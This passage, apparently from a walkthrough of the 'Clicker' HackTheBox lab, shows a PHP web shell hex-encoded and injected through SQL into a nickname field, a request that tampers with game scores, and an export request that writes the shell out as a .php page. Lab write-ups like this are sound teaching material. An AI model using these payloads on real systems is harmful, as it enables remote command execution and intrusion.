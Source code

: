 we can change the extension to php. It's clear that the purpose is to escalate a user to one of the showed ones in the page and then export a `php` page, which we can access to, in order to run commands using a `php` shell.

To achieve our goal we must do some tricks.

- #### First of all, i created another new user called `test20` for example.

> Remember that the `username` column in db is not the same of `nickname` column. Nickname column is the one showed by `export.php` and we must inject it.

- #### Login again as admin.

Once created the user and authenticated, we can use something similar to the payload used to change the passwrod, to change our nickname too.

In order to avoid problems with mysql I'll use mysql `HEX` function to encode the payload: `<?php system($_GET["cmd"]);?>`

`SELECT HEX('<?php system($_GET["cmd"]);?>')`

result encoded:

`3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E`

```sql
nickname=unhex('3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E')/**/where/**/username='test20'#
```
 
- #### Escalate user to the top of the scoreboard

We can use a well known call to do this

```http
GET /save_game.php?clicks=2000000000&level=999999999 HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/play.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4nphpuhuujo7bc4eg2kf477l8a
Connection: close
```

- #### Go back to administrator page and export table:

```http
POST /export.php HTTP/1.1
Host: clicker.htb
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://clicker.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4nphpuhuujo7bc4eg2kf477l8a
Connection: close

threshold=1000000&extension=php
```
